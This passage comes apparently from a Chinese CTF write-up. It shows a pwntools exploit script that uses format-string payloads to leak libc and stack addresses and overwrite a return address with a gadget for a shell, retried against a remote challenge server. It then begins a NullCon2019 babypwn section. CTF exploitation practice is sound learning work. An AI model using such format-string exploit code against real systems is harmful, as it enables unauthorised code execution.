 ```py
    p.send(payload)

def exp():
    #leak libc
    payload = "%43$p|%10$p|"
    payload += "%"+str(0x3c)+"c%10$hhn|"
    payload += "%"+str(0x9d)+"c%18$hhn"
    MyPrint(payload)
    p.recvuntil("0x")
    libc_base = int(p.recv(8),16) - 247 - libc.sym['__libc_start_main']
    log.success("libc base => " + hex(libc_base))
    #leak stack
    p.recvuntil("0x")
    retn_addr = int(p.recv(8),16) - 0x20 + 4 + 0x64 - 0xc0
    log.success("retn addr => " + hex(retn_addr))
    #get shell

    shell_addr = libc_base + gadgets[1]
    print hex(shell_addr)
    #gdb.attach(p)
    raw_input()
    #gdb.attach(p,'b* 0x08048627')
    low = shell_addr & 0xffff
    high= shell_addr >> 16
    payload = "%"+str(retn_addr&0xffff)+"c%10$hn|"
    payload += "%"+str(low)+"c%18$hn|"
    payload += "%"+str((retn_addr+2)&0xff)+"c%10$hhn|"
    payload += "%"+str(high)+"c%18$hn"
    MyPrint(payload)


while True:
    try:
        exp()
        p.interactive()
        p.close()
    except:
        p.close()
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    if debug == 1:
        p = process('./chall')
    else:
        p = remote('119.3.172.70',10005)

```

## NullCon2019 babypwn

### 前言
